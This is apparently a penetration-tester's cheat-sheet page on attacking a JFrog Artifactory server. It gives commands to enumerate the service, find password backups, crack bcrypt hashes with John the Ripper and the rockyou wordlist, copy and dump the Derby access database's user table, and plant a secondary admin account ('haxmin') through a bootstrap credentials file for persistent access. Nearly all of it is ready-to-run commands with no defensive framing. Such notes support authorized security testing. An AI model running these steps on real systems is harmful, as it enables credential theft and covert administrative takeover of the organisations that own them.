 ```yaml
---
description: binary repository manager
---
```


# Artifactory

<details>

<summary>Enumeration</summary>

* Check if artifactory service is running
  *   ```bash
      ps aux | grep artifactory
      ```


* Start Artifactory service
  * ```bash
    sudo /opt/jfrog/artifactory/app/bin/artifactoryctl start
    ```

- Passwords stored in .json files
  * ```bash
    /<ARTIFACTORY FOLDER>/var/backup/access
    ```

</details>

<details>

<summary>Cracking Artifactory password</summary>

* Save the bcrypt hash to a text file (Without "bcrypt$")
  *

      <figure><img src="../.gitbook/assets/image (7) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>


* ```bash
  john --wordlist=/usr/share/wordlists/rockyou.txt artifactory.hash
  ```

</details>

<details>

<summary>Compromising Artifactory's Database</summary>

* Copy the database from the original location && Remove lock files
  *   ```bash
      mkdir /tmp/hackeddb
      sudo cp -r /opt/jfrog/artifactory/var/data/access/derby /tmp/hackeddb
      sudo chmod 755 /tmp/hackeddb/derby
      sudo rm /tmp/hackeddb/derby/*.lck
      ```


* Connect to DB
  *   ```bash
      sudo /opt/jfrog/artaifactory/app/third-party/java/bin/java -jar /opt/derby/db-derby-10.15.1.3-bin/lib/derbyrun.jar ij
      connect 'jdbc:derby:/tmp/hackeddb/derby';
      ```


* Dump DB
  * ```bash
    select * from access_users;
    ```

</details>

<details>

<summary>Adding a Secondary Artifactory Admin Acc</summary>

* Create new file: /opt/jfrog/artifactory/var/etc/access/bootstrap.creds
  *   ```bash
      haxmin@*=haxhaxhax
      ```


* Create new user
  *   ```bash
      sudo chmod 600 /opt/jfrog/artifactory/var/etc/access/bootstrap.creds
      ```


* Restart Artifactory service
  *   ```bash
      sudo /opt/jfrog/artifactory/app/bin/artifactoryctl stop
      sudo /opt/jfrog/artifactory/app/bin/artifactoryctl start
      ```


* Verify that Artifactory would then load the bootstrap credential file for the new user
  *   ```bash
      sudo grep "Create admin user" /opt/jfrog/artifactory/var/log/console.log
      ```


* Login with new account
  * ```bash
    haxmin:haxhaxhax
    ```

</details>
